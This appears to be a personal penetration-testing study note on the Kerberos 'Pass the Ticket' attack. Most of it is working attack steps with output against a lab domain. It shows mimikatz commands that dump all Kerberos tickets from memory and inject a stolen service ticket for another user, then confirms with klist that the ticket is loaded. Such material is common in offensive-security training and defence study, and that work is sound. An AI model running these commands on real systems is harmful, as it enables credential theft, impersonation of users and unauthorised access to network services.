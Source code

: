 We can only use the TGT on the machine it was created for, but the `TGS` potentially offers more flexibility.
The [[Pass the Ticket]] attack takes advantage of the `TGS`, which may be exported and re-injected elsewhere on the network and then used to authenticate to a specific service. In addition, if the service tickets belong to the current user, then no administrative privileges are required.

```mimikatz
privilege::debug
sekurlsa::tickets /export
```
```powershell
# Check the username & hostname (It generates a lot of tickets so use any one of them)
dir *.kirbi
```
```mimikatz
# Select any one of the kirbi
kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi

* File: '[0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi': OK
```
```powershell
# Check for tickets (Highlight on client & server)
klist

#0>     Client: dave @ CORP.COM
        Server: cifs/web04 @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40810000 -> forwardable renewable name_canonicalize
        Start Time: 9/14/2022 5:31:32 (local)
        End Time:   9/14/2022 15:31:13 (local)
        Renew Time: 9/21/2022 5:31:13 (local)
```